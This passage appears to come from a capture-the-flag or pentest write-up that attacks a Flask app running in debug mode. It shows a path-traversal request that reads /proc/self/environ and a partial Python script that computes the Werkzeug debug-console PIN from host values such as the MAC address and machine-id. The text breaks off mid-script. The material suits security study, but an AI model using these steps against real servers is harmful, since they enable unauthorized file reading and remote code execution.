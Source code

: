 However, we don't have any clue of the PIN for now.
Let's collect system information first.

```shell
GET /download?fn=../proc/self/environ HTTP/1.1
<SNIP>

===================================================

LANG=C.UTF-8 PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/snap/bin HOME=/var/www
LOGNAME=www-data
USER=www-data
INVOCATION_ID=20a2abff4db442be9be41ce2e11074b3
JOURNAL_STREAM=8:32827
SYSTEMD_EXEC_PID=1073
CONNFIG_PATH=/app/config_prod.json
```

Based on this `environ` output, current user is `www-data`.

Here's the recommended article and reference to exploit Flask Debug mode:
https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/werkzeug
https://www.youtube.com/watch?v=6BWaea0nfE0
https://www.bengrewell.com/cracking-flask-werkzeug-console-pin/

Based on "Hacktricks" article, there's a python code to generate pin.
However, this requires some values to be modified.

```python
import hashlib
from itertools import chain
probably_public_bits = [
    'web3_user',  # username
    'flask.app',  # modname
    'Flask',  # getattr(app, '__name__', getattr(app.__class__, '__name__'))
    '/usr/local/lib/python3.5/dist-packages/flask/app.py'  # getattr(mod, '__file__', None),
]

private_bits = [
    '279275995014060',  # str(uuid.getnode()),  /sys/class/net/ens33/address
    'd4e6cb65d59544f3331ea0425dc555a1'  # get_machine_id(), /etc/machine-id
]

# h = hashlib.md5()  # Changed in https://werkzeug.palletsprojects.com/en/2.2.x/changes/#version-2-0-0
h = hashlib.sha1()
for bit in chain(probably_public_bits, private_bits):
    if not bit:
        continue
    if isinstance(bit, str):
        bit = bit.encode('utf-8')
    h.update(bit)
h.update(b'cookiesalt')
# h.update(b'shittysalt')

cookie_name = '__wzd' + h.hexdigest()[:20]

num = None
if num is None:
    h.update(b'pinsalt')
    num = ('%09d' % int(h.hexdigest(), 16))[:9]

rv = None
if rv is None:
    for group_size in 5, 4, 3:
```
